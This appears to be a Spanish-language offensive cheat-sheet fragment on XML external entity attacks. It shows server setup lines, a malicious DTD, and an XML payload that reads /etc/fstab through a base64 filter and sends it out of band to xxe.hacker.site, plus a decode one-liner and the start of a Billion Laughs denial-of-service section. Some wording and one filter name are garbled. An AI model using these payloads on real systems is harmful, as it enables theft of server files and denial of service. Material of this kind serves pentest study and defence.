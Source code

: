 Coge el xxeserver de github

Añáda estas líneas:

```bash
set :bind, "xxe.hacker.site"
set :port, 80
```

### evil DTD

```xml
<!ENTITY % resource SYSTEM "php://filter/read=conver.base64-encode/resource=file:///etc/fstab">
<!ENTITY % LoadOOBEnt "<!ENTITY &#x25; OOB SYSTEM 'http://xxe.hacker.site/?p=%resource;'> ">
```

### evil XML

```xml
<!DOCTYPE XXE_OOB [
  <!ENTITY % EvilDTD SYSTEM "http://hacker.site/evil.dtd">
  %EvilDTD; 
  %LoadOOBEnt; // the entity that defines a new entity
  %OOB; // entity that performs the OOB communication
]>
```

> no olvide abrir el xxeserver El espacio debe ser cambiado a signo antes de que se pueda decodificar la base64

```bash
cat <file> | tr ' ' '+' | base64 -d
```

## XML Entity Expansion (XEE)

Es un **Denial of Service** Attack

### Recursive Entity Expansion

El ataque XEE más conocido: **Billion Laughs**

* El ataque explota a los parsers XML en conjuntos de pequeñas entidades que resuelven exponencialmente.

Esto se hace con el fin de explotar los datos de una cadena simple **lol** a un billete de miles de millones **lol** cadenas

### Billion Laughs Attack
